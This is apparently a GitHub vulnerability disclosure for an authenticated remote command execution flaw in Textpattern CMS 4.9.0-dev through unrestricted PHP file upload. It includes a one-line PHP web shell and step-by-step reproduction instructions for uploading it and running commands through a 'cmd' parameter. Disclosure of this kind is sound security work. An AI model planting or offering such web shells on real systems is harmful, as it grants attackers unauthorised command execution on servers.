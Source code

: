 # TextPattern-CMS-4.9.0-dev-Authenticated-Remote-Command-Execution-RCE-Through-File-Upload
Textpattern version 4.9.0 is vulnerable to Remote Code Execution (RCE) due to the file upload functionality allowing unrestricted PHP file uploads, potentially leading to remote code execution.

<B>Vulnerable URL:</B><br> 
http://localhost/textpattern/textpattern/index.php?event=file&step=file_insert<br> 

<B>Reproduction:</B><br> 
1. Log in as the root user in Textpattern.<br> 
2. Create a PHP web shell by making a file named rce.php with the content `</?php echo shell_exec($_GET['cmd']); ?>` .<br> 
3. Navigate to 'Content > Files' and upload the rce.php web shell.<br>
    ![alt text](https://github.com/patrickdeanramos/TextPattern-CMS-4.9.0-dev-Authenticated-Remote-Command-Execution-RCE-Through-File-Upload/blob/main/RCE-TextPatter-1.png?raw=True)
5. Access the web shell directly by going to https://<url>/textpattern/files/rce.php?cmd=id.<br> 
6. You can now interact with the web shell and execute commands using this 'cmd=COMMAND'.<br>
   ![alt text](https://github.com/patrickdeanramos/TextPattern-CMS-4.9.0-dev-Authenticated-Remote-Command-Execution-RCE-Through-File-Upload/blob/main/RCE-TextPattern-2.png?raw=True)

<B>Authors:</B><br> 
Patrick Dean Ramos<br> 
Nathu Nandwani<br> 
Junnair Manla<br> 
Kevin Rosales<br> 
Steve Nyan<br> 
Shanavas Shakeer<br> 
Lani Lambert<br> 

